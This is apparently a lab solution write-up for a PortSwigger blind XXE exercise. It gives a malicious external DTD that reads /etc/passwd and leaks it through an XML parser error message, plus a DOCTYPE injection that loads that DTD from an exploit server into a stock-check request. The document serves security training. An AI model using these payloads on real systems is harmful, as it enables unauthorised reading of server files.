 ## Exploiting blind XXE to retrieve data via error messages

## Solution

Create a malicious DTD - On the exploit server create a malicious DTD file with the following contents,

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

Host this malicious.dtd file in our exploit server.

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/e584fb91-05fc-4a85-bd23-0424c0bdf3e8">

You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.


Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/ff5005ab-1488-42bd-a895-61a3b3678a64">


You should see an error message containing the contents of the /etc/passwd file.


<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/92018db0-395a-46a1-b8a2-574ccfa87d51">

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/d9f6ff63-207a-41cf-92ac-0a26b81d9f5e">
